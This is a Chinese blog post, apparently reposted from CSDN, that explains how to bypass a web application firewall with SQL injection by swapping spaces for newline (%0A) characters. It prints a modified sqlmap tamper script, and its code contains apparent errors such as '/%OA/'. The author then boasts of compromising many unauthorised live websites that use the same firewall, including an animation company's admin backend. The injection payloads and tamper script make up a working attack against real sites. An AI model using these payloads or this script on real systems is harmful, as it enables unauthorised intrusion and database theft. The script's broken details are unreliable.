









sqlmap_修改tamper脚本_绕过WAF并制作通杀0day

第一步：找注入点
进网站先找注入点
●网站新闻部分都是带参数的
●这个部分不是伪静态

尝试注入：
?id=1'
报错，不拦截，Access数据库
？id=1'or'1'like'1
拦截
?id=1 or
拦截
?id=1or
不拦截waf可能会判断空格后的关键字，并且拦截成对的单引号

?id=1 xor true#不拦截，成功注入查询至新闻的最后一篇文章

?id=1 or true#拦截
●看来这个waf并没有拦截xor这个关键字
●并且确定确实有注入点，并且参数是int型
select之类的关键字就不说了，肯定被拦截
第二步：尝试绕过WAF
如果waf检查空格后的字符
那么就尝试对空格进行Unicode编码
?id=1%20or%20true%23
拦截
?id=1%u0020or
拦截
?id=1%A0or
拦截
id=1%00or%00true不拦截，但是%00却截断了注入语句，并没有注入成功
对空格进行编码绕过失败
换一个思路：
如果注入语句不在同一行上呢？
sql查询就算被回车键截断也可以成功进行
那么把空格替换成回车呢？
?id=1%0Aor%0Atrue#不拦截，并且查询成功！
利用回车截断注入语句证明可行！
第三步：利用注入点
网上查找相关的tamper
很遗憾并没有把空格替换成回车的脚本
（也有可能是本人眼睛瞎没找到）
那么就在原有的tamper上进行修改
sqlmap自带的tamper：
space2comment
这个脚本的原代码是把空格替换成/**/
#!/usr/bin/env python
"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
pass
def tamper(payload, **kwargs):
"""
Replaces space character (' ') with comments '/**/'
Tested against:
* Microsoft SQL Server 2005
* MySQL 4, 5.0 and 5.5
* Oracle 10g
* PostgreSQL 8.3, 8.4, 9.0
Notes:
* Useful to bypass weak and bespoke web application firewalls
>>> tamper('SELECT id FROM users')
'SELECT/**/id/**/FROM/**/users'
"""
retVal = payload
if payload:
retVal = ""
quote, doublequote, firstspace = False, False, False
for i in xrange(len(payload)):
if not firstspace:
if payload[i].isspace():
firstspace = True
retVal += "/**/"
continue
elif payload[i] == '\'':
quote = not quote
elif payload[i] == '"':
doublequote = not doublequote
elif payload[i] == " " and not doublequote and not quote:
retVal += "/**/"
continue
retVal += payload[i]
return retVal进行修改，把/**/改成%0A

另存为space20A.py
#!/usr/bin/env python
"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
pass
def tamper(payload, **kwargs):
"""
Replaces space character (' ') with comments '/**/'
Tested against:
* Microsoft SQL Server 2005
* MySQL 4, 5.0 and 5.5
* Oracle 10g
* PostgreSQL 8.3, 8.4, 9.0
Notes:
* Useful to bypass weak and bespoke web application firewalls
>>> tamper('SELECT id FROM users')
'SELECT/**/id/**/FROM/**/users'
"""
retVal = payload
if payload:
retVal = ""
quote, doublequote, firstspace = False, False, False
for i in xrange(len(payload)):
if not firstspace:
if payload[i].isspace():
firstspace = True
retVal += "/%OA/"
continue
elif payload[i] == '\'':
quote = not quote
elif payload[i] == '"':
doublequote = not doublequote
elif payload[i] == " " and not doublequote and not quote:
retVal += "/%0A/"
continue
retVal += payload[i]
return retVal带入sqlmap，成功爆出数据库



第四步：通杀0day 批量拿站
拿下一个企业站并不算什么
令我惊讶的是大多数网站都在用这个waf
导致大多数网站都成功通杀
举例：
XX动画公司，成功手工注入

进入后台：

还有一些站也被成功注入，就不一一举例了

关于怎么写tamper脚本
找到waf绕过规则，然后尝试修改sqlmap原有的tamper脚本
然后循序渐进，慢慢地提高自己的过waf能力
SQL语句和熟悉数据库的功底很重要
作者：ALDYS4
来源：CSDN，已获作者授权